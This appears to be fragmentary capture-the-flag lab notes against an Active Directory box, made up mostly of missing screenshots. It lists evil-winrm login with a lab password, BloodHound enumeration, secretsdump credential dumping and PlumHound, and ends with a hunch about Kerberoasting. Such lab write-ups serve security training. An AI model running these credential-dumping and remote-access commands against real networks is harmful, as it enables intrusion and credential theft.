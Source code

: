 
```
evil-winrm -u 'sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179
```

![[Pasted image 20241002141912.png]]

![[Pasted image 20241002142112.png]]

![[Pasted image 20241002142511.png]]

![[Pasted image 20241002142528.png]]

```
bloodhound-python -d Megacorp.local -u sbauer -p 'D3veL0pM3nT!' -ns 10.10.10.179  -c all
```

![[Pasted image 20241002142806.png]]

```
secretsdump.py Megaccorp.local/sbauer:'D3veL0pM3nT!'@10.10.10.179
```
![[Pasted image 20241002142952.png]]

Will run PlumHound
```
python3 Plumhound.py -x tasks/default.tasks -p password
```

![[Pasted image 20241002155625.png]]

Open the index.html

![[Pasted image 20241002160246.png]]

SO i think there is something related to Kerberoasting


